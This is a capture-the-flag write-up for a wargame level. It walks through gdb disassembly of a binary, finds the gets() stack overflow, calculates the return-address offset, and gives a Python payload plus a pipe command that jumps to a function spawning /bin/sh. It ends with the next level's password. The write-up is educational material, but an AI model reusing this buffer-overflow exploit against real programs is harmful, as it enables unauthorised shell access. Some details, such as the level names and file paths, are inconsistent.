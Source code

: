 # Level 0

## First clue
- once logged in as level1 a simple `ls -la`reveals the existence of a `level1` file, owned by `level2`:
- `level2` is an executable
- we try to execute it without arguments and we get the prompt back
- nothing happens if we write something

## Inspect with gdb
- we check the functions in the executable. the presence of gets() function reveals a potential vulnerability (`fget()` is more safe)
```
(gdb) info function
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main

```
- there are two main functions, `main` and `run`
- first we inspect main
## Main
```
  (gdb) disas main
  Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.

```
- <+6> is substracting 80 bytes from the register `esp`, that is the variable that the CPU uses to keep track of the last procedure executed. This instruction allocate 80 bytes in the stack for a variable
- <+16> is calling the `gets()` function using as argument the buffer of which the address has been pushed onto the stack in the previous instruction (+13), as usual just before the calling of a function
- <+21> and <+22> restore the control flow back to the runtime where the main function had been called, effectively updating the instruction pointer (eip) with the address stored in the return address located in the stack frame.
- the return is where we can operate, because we want to overwrite the return address (stored in `eip`) taking advantage of the fct that the gets() function doesnt't check the length of the buffer and if we write in the buffer a number of bytes higher than what the program has allocate we can rite directly in the `eip`
- to do that we need 2 things: 
    1. know exactly the offset of the buffer (we know that 80 bytes has been allocated but not exactly the offset). 
    2. which payload to execute and how. sure we need to find a way to execute `cat /user/level2/home/.pass` as `level2`but how?
- to get the offset 
    1. we create a pattern of 80 characters (the same number of bytes allocated being 1 char = 1 byte) and save it i na file in the only place where we can save data: `python -c'print"a"*81' > /tmp/pattern`
    2. we pass this pattern as argument of ./level1 using gdb: 
    ``` 
    gdb ./level1
    run < /temp/pattern
    ```
    and we get the address returned by the program causing the segfault:
    ```
    Starting program: /home/user/level1/level1 </tmp/pattern

    Program received signal SIGSEGV, Segmentation fault.
    0x61616161 in ?? ()
    ```
    - since 61 is the ASCII for the character "a" we can constate that the address contains actually 4 "a" characters, that means that 80 - 4 = the exact point where the buffer is overflowed = 76
    - to confirm that we use the `info registers` gdb command:
    ```
    (gdb) info registers
    eax            0xbffff6e0	-1073744160
    ecx            0xb7fd28c4	-1208145724
    edx            0xbffff6e0	-1073744160
    ebx            0xb7fd0ff4	-1208152076
    esp            0xbffff730	0xbffff730
    ebp            0x61616161	0x61616161
    esi            0x0	0
    edi            0x0	0
    eip            0x61616161	0x61616161
    eflags         0x210286	[ PF SF IF RF ID ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51
    ```
## Run
- we inspect the run function
```
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
```
- <+41>, <+46>, and <+53> are the most critical instructions within the run function. The fwrite function writes data to a file stream, and the subsequent system call indicates the execution of a shell command. But what shell command is being executed? To determine this, we inspect the argument passed to the system function:
    ```
    (gdb) x/s 0x8048584
    0x8048584:	 "/bin/sh"
    ```
- and we find out that the shell command is the shell executable
- ok so if we pass the address where the run function start as return of the main function we can actually execute /bin/sh 

### Buffer overflow return overwriting:
- we get the run function start address from the `info function` or `disas run` cmd output: `0x08048444  run`
- we create a file containing 76 char + the address of run function reversing it (for little endian):
`python -c 'print"a"*76+"\x44\x84\x04\x08"' > /tmp/exploit`
- we pass the `exploit` file as argument to `./level1`and we get a response `Good... Wait what?`but after that a segfault.
- we have to find a way to keep the stdin open after cat reads from the file, ensuring the program doesn't crash when system tries to read from it: `cat /tmp/exploit - | ./level`
## Solution
- this way the prompt is returned to us and we can try to cat the .pass of level2:
```
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```